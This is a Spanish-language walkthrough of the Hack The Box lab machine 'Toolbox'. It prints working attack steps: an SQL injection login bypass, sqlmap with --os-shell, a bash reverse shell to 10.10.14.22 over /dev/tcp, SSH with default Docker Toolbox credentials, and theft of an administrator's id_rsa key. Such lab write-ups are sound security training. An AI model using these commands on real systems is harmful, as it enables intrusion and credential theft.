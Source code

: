 #by d4l1

<p align="center"><img src=""></p>

<h1 align="center">Toolbox</h1>

# ÍNDICE

# INICIO

Toolbok es una máquina windows fácil con un docker instalado, Usado como contenedor de host de linux, este servidor tiene un sitio y una vulnerabilidad de SQL. Esto hace que el mismo contenedor. Tenga unas contraseñas predefinidis y acedamos con una shell al hosts.

Como siempre el test de conectividad

![image](https://github.com/D4l1-web/HTB/assets/79869523/50068644-51e5-40d5-b714-c84b7090a31a)

Escaneo de puertos

![image](https://github.com/D4l1-web/HTB/assets/79869523/866d02f5-c2d2-4396-b3a9-fbaccbadcb19)

Nos encontramos con un ftp con anonymous un ssh y varios puertos importantes como un rpc un apache, un smb, un wrm o un netbios.

Es una máquina windows pero tiene un apache en un servidor debian jaja.

Esto indica virtualización.

Vemos un ftp con el modo pasivo a ver si nos podemos conectar con anonymous/anonymous

![image](https://github.com/D4l1-web/HTB/assets/79869523/f807d829-465d-4b70-b77a-0983320de6b6)

Nos encontramos con un archivo exe visible seguramente funcionando en el servidor docker

si nos vamos al puerto 443 https encontramos una página.

Si exploramos la página encontraremos el certificado ssl con un vhost

![image](https://github.com/D4l1-web/HTB/assets/79869523/0755ffa8-f27b-46b3-b615-2fdb63d96611)

la añadimos
```
echo "ip admin.megalogistic.com" | sudo tee -a /etc/hosts
```
Nos encontramos con esto 
![image](https://github.com/D4l1-web/HTB/assets/79869523/01694c46-705e-4acb-bdc5-8c5d2828a3d7)

Vemos un login visible, y podemos intentar sql injeccion básicos como un admin' or 1=1 -- o alguno a sí. ESTAMOS DENTRO JAJ

![image](https://github.com/D4l1-web/HTB/assets/79869523/b16f57e2-939a-4ff2-a2eb-b50759bd9e0d)

Esto nos ha dado acceso al dashboard del administrador

Primero famos a coger una request de esta misma y la pasaremos por sqlmap para enumerar la base de datos y si encontramos algo.

![image](https://github.com/D4l1-web/HTB/assets/79869523/1efc874c-917d-4cad-a02b-88108ac76323)

Nos cogemos la consulta y nos copiamos el fichero


![image](https://github.com/D4l1-web/HTB/assets/79869523/53ea6d4f-cdcd-43b4-9673-130ea2ddc793)
![image](https://github.com/D4l1-web/HTB/assets/79869523/2da66f7b-6176-4b07-ab82-3bbb33491140)

```
sqlmap -r toolbox.req --risk=3 --level=3 --batch --force-ss
```

Nos indica que tenemos una injeccion identificada.

![image](https://github.com/D4l1-web/HTB/assets/79869523/7adbb25b-a1a0-47f7-a9b5-7c66d8084b11)

```
sqlmap -r toolbox.req --risk=3 --level=3 --batch --force-ssl --os-shell
```
![image](https://github.com/D4l1-web/HTB/assets/79869523/3d7db877-9258-4559-ac23-c83fa9d00015)

Ahora podemos ejecutar una reverse bash para ganar acceso al servidor.

```
bash -c 'bash -i >& /dev/tcp/10.10.14.22/4444 0>&1'
```

![image](https://github.com/D4l1-web/HTB/assets/79869523/25077692-b53e-47bd-b1e8-c078701fcd60)

![image](https://github.com/D4l1-web/HTB/assets/79869523/2f4a106c-9e2b-44bd-a4e9-46e76543d5b2)


## ESCALADA DE PRIVILEGIOS

La herramienta toolbox usa VM para contener. Estos archivos son distribuciones de vitualbox y las crdenciales normalmente predefinidas son docker / tcuser. Vamos a ver nuestra ip

![image](https://github.com/D4l1-web/HTB/assets/79869523/b2e4c6df-2def-4ddc-b42e-91b85721d9cf)

Vemosq ue nuestra ip es la 0.2 y que hay un host en la 0.1 vamos a intentar hacer un ssh importanto una shell buena
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ssh docker@172.17.0.1
```

Estamos dentro

![image](https://github.com/D4l1-web/HTB/assets/79869523/2af11a90-56d5-45fb-a0c7-fb9391aebdf1)

Ahora dentro vamos a irnos a los archivos definidos y nos vamos a C:\Users y nos vamos al archivo oculto .ssh

![image](https://github.com/D4l1-web/HTB/assets/79869523/662be5e1-7098-42b8-b535-e8fd9f80a99a)

![image](https://github.com/D4l1-web/HTB/assets/79869523/17e5858f-48fc-42f0-9d32-2fd9878a82d9)

![image](https://github.com/D4l1-web/HTB/assets/79869523/6d9b3bf3-0cea-46bf-84bf-e1b401fa3b8d)

Para poder entrar con la id_rsa debera tener los permisos
```
chmod 600 id_rsa
ssh administrator@ip -i id_rsa
```
![image](https://github.com/D4l1-web/HTB/assets/79869523/46e4864e-b024-486d-9653-b87b50ccdc12)

![image](https://github.com/D4l1-web/HTB/assets/79869523/fbdc291e-37f4-46ab-8b7f-e7ed4f5ec85d)

GG

